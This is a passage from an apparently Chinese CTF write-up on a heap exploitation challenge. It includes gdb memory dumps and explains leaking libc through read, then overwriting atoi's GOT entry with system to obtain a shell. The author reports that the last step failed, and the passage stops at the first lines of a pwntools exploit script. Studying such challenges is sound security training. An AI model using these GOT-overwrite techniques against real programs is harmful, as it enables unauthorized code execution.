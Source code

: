 	0x16ec2a0: 0x0 0x21

	0x16ec2b0: 0x200000001 0x400000003

	0x16ec2c0: 0x16ec260 0x31

	0x16ec2d0: 0x16ec280 0x6262626262626262

	0x16ec2e0: 0x6262626262626262 0x6262626262626262

	0x16ec2f0: 0x0 0x20d11

	0x16ec300: 0x0 0x0

可以看到read.plt的地址已经在堆中(这里的地址和上面不一样是因为上面是用gdb直接调试的，现在的是用脚本在gdb调试)

接下来我们就可以用LibcSearcher拿到libc的版本，从而拿到了ststem的地址。

剩下的就是如何使system执行。菜单里的edit可以导致任意地址写漏洞

所以我们可以构造 payload 来覆写它的数据。如果我们用一个自己选择的指针（GOT条目）来覆写原来的指针，然后使用它调用 edit 函数，将能够重定向代码的执行。

选择 GOT 里的 atoi 函数来覆写 。原因是 atoi
接收一个指向我们输入的指针，然后将其转换回整数。如果将 atoi 换成 system函数，并提供 sh 作为 system 的参数，就能得到 shell。

	gef➤ x/70g 0x016ec240

	0x16ec240: 0x0000000000000000 0x0000000000000000

	0x16ec250: 0x0000000000000000 0x0000000000000021

	0x16ec260: 0x0000000200000001 0x0000000400000003

	0x16ec270: 0x00000000016ec2b0 0x0000000000000031

	0x16ec280: 0x00000000016ec2d0 0x6262626262626262

	0x16ec290: 0x6262626262626262 0x6262626262626262

	0x16ec2a0: 0x0000000000000000 0x0000000000000021

	0x16ec2b0: 0x0000000000603110 0x0000000400000003

	0x16ec2c0: 0x00000000016ec2d0 0x0000000000000031

	0x16ec2d0: 0x0000000000000000 0x6161616161616161

	0x16ec2e0: 0x6161616161616161 0x6161616161616161

	0x16ec2f0: 0x0000000000000000 0x0000000000020d11

	0x16ec300: 0x0000000000000000 0x0000000000000000

我们可以看到在0x16ec2b0的位置已经是atoi的got的地址了，接下来按理说直接调用edit将system覆盖它然后输入‘sh’就能拿到shell，但我这里失败了，不知道原因出在哪里。

	Exp:

	from pwn import *

	from LibcSearcher import *

	context.terminal = ['terminator','-x','sh','-c']

	r=process('./main')

